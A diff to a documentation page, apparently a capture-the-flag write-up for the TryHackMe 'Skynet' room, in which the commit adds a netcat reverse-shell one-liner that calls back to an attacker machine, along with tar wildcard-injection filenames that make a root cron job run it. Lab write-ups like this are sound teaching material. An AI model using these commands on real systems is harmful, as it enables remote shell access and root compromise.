

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/skynet.md, in a window 1280 px wide and 900 px high, scrolled down 12323 px. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

````diff
--- a/source/docs/thm/skynet.md
+++ b/source/docs/thm/skynet.md
@@ -496,3 +496,11 @@ After `cron` has run and has created the shell SUID copy of bash, execute it wit
     $ /tmp/shell -p
     # whoami
     root
+
+Or create a shell with the infamous one-liner, and set up a listener on port 7777:
+
+```text
+echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP address attck machine> 7777 >/tmp/f" > shell.sh
+touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
+touch "/var/www/html/--checkpoint=1"
+```
````
